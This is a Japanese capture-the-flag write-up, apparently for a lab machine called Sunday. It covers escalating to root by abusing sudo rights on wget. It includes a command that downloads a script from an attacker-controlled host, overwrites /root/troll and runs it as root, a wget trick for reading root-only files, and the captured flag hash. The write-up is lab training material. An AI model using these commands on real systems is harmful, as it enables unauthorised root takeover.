 ```
sudo wget -i /root/root.txt
```

→Writeupとは異なり、うまくDNSができず、URLを生成できなかった。

* root権限奪取をする。以下流れで行う
  * sammyがwgetのsudo権限を持っているので/root/trollのスクリプトの中身を書き換える
  * sunnyが/root/trollの実行権限を持っているので書き換えたスクリプトを実行する

まずkaliのディレクトリでtrollを作り、サーバーを立ち上げる

```bash
touch troll
vi troll

# ファイルの中身
!#/bin/usr/bash
bash

python -m http.server 5555
```

Sundayのサーバーで以下コマンドを実行する。

```bash
sudo wget -O /root/troll http://10.10.16.3:5555/troll; sudo /root/troll
```

※確かめたところsammyでも/root/trollを実行できた。
※定期的にtrollが上書きされているようで何度か失敗したが、コマンドを連続実行することでroot奪取に成功した。

```bash
root@sunday:/home/sammy# cat /root/root.txt
fb40fab61d99d37536daeec0d97af9b8 
```

## 所感

* 10.10.10.76にSSHしてからのサーバーの動作が遅すぎてイライラした。
* fingerサービスが稼働していたらusernameを探ってみる。
  * brute-forceして、見つかったユーザでfingerの流れ
* nmapは、ポートをある程度確認してからポートを絞って詳細情報を確認すると早い
* escalationのとき、sudo -lでユーザのsudo権限を確認できる
* wgetをうまく使うことでroot奪取できるテクニックはぜひ覚えたい
